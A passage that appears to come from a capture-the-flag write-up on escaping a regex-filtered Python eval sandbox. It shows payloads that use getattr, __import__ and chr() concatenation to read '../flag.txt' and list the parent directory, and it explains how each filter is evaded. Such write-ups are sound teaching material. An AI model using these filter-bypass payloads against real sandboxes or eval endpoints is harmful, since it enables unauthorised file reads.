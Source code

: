 ```python
getattr(getattr(__import__("builtins"), "open")("../flag.txt"), "read")()
```

This can be broken down as:
1. `__import__("builtins")` - Import the builtins module
2. `getattr(__import__("builtins"), "open")` - Get the `open` function from builtins
3. `getattr(__import__("builtins"), "open")("../flag.txt")` - Open the flag file
4. `getattr(..., "read")` - Get the `read` method of the file object
5. `getattr(..., "read")()` - Call the read method to get file contents

**Simplified equivalent**:
```python
open("../flag.txt").read()
```

## Why This Bypass Works

### 1. **Character Encoding Bypass**
- Uses `chr()` function with decimal ASCII values instead of blocked hex/unicode/URL encoding
- Decimal numbers like `98` don't match the regex patterns that look for `0x`, `\u`, or `%` prefixes

### 2. **Keyword Evasion**
- Never uses blocked keywords directly in the payload
- Constructs them dynamically using character concatenation
- The string `"open"` is built character by character, so it doesn't trigger keyword filters

### 3. **Path Traversal Bypass**
- The regex `\.\.` looks for literal `..` in the input
- But `chr(46)+chr(46)` constructs `..` dynamically, bypassing the static pattern match

### 4. **File Extension Bypass**
- The regex `\.[A-Za-z0-9]{1,3}\b` looks for file extensions
- But `.txt` is constructed as `chr(46)+chr(116)+chr(120)+chr(116)`, avoiding pattern detection

### 5. **Path Separator Bypass**
- Uses `chr(47)` to construct `/` instead of literal forward slash
- Bypasses the `[\\\/]` regex pattern

## Exploitation Process

### Step 1: Reconnaissance - Finding the Flag File

Before attempting to read the flag, we first need to locate it. The initial payload used was:

```python
getattr(__import__(chr(111)+chr(115)), chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114))(chr(46)+chr(46))
```

**Decoding this payload:**
- `chr(111)+chr(115)` = `"os"`
- `chr(108)+chr(105)+chr(115)+chr(116)+chr(100)+chr(105)+chr(114)` = `"listdir"`
- `chr(46)+chr(46)` = `".."`
